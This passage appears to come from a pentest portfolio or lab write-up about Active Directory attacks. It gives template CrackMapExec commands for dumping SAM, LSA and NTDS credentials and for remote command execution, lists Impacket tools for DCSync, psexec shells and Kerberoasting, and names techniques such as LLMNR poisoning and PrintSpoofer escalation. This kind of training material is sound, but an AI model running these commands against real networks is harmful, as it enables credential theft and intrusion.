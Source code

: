 #### **✅ Specific Tool Benefits:**

**CrackMapExec:**
```bash
# Credential extraction:
crackmapexec smb target -u user -p pass --lsa
crackmapexec smb target -u user -p pass --sam
crackmapexec smb target -u user -p pass --ntds

# Lateral movement:
crackmapexec smb target -u user -p pass -x "command"
crackmapexec smb target -u user -p pass --exec-method wmiexec
```

**Impacket Suite:**
```bash
# Comprehensive attack tools:
impacket-secretsdump    # DCSync, credential extraction
impacket-wmiexec       # Lateral movement
impacket-psexec        # Service-based shells
impacket-smbexec       # SMB-based shells
impacket-GetUserSPNs   # Kerberoasting
impacket-mssqlclient   # SQL Server attacks
```

---

## 🎯 **Professional Skills Demonstrated**

### **🏆 Advanced Techniques:**
- **LLMNR/NBT-NS Poisoning** - Passive credential harvesting
- **Password Spraying** - Systematic weak credential discovery  
- **File Hunting** - Sensitive data discovery with Snaffler
- **SQL Server Exploitation** - Database server compromise
- **Privilege Escalation** - PrintSpoofer SeImpersonatePrivilege abuse
- **Credential Extraction** - Memory-based credential harvesting
- **ACL Abuse** - GenericAll rights exploitation
- **DCSync Attacks** - Domain replication abuse
- **Lateral Movement** - Multi-host compromise chain

### **🔧 Methodology Excellence:**
- **Superior Pivoting** - SSH dynamic forwarding vs Meterpreter
- **Tool Integration** - Seamless proxychains compatibility
- **Professional Workflow** - Real-world pentesting approach
- **Troubleshooting** - Stable connection management
- **Efficiency** - Streamlined attack execution

---

## 💡 **Key Insights & Best Practices**
